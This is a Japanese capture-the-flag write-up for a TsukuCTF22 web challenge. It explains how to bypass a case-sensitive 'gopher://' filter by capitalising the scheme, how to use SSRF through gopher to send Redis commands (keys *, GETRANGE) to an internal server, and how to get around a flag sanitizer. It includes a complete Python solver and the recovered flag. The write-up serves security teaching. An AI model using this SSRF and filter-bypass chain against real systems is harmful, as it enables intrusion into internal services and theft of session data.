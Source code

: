 `gopher://` 等は禁止されているように見えるが、case-insensitive なので大文字を含めることで回避できる。

ただし、gopher で対象の value を取るために、redis の key を知る必要がある。  
key は redis の `keys *` で全列挙できるため、全ての key を列挙して response に flag が含まれるものを選択すれば良い。

また、`TsukuCTF22`という文字列を含む場合は sanitize されるが、`GETRANGE` で一部を抜き出すことで対処できる。  
したがって、方針は以下の通りになる。  
まず、redis に含まれる key を全列挙し、次に GETRANGE で列挙したものの一部を読み取る。

solver は以下の通り。

```python
import requests
from urllib.parse import quote
import re
import sys

# CHANGE HERE with an appropriate url
TARGET_URL = "http://127.0.0.1:31555"

# enumerate redis keys
form = {
    "url": "Gopher://redis:6379/+" + quote("keys *\r\nQUIT\r\n")
}
cookies = {
    "__SESSION_ID": "d8c7d141-b8da-416b-a220-d8d7218c8bbc", # dummy session id
}
res = requests.post(TARGET_URL, data=form, cookies=cookies)

session_id_list = re.findall("(.+-.+-.+-.+-.+)\r", res.text)
# print(session_id_list)

# check redis value
for session_id in session_id_list:
    form["url"] = "Gopher://redis:6379/+" + quote(f"GETRANGE {session_id} 60 -1\r\nQUIT\r\n")
    cookies["__SESSION_ID"] = session_id
    res = requests.post(TARGET_URL, data=form, cookies=cookies)
    if "CTF22{" in res.text:
        print("TsukuCTF22{" + res.text[res.text.find("CTF22{") + len("CTF22{"):res.text.find("}&#34;")] + "}")
        sys.exit(0)

```

上記のソルバを実行すると、以下の Flag が得られる。

```
TsukuCTF22{ur1_scheme_1s_u5efu1}
```

## ポストモーテム

### 何が起こったか
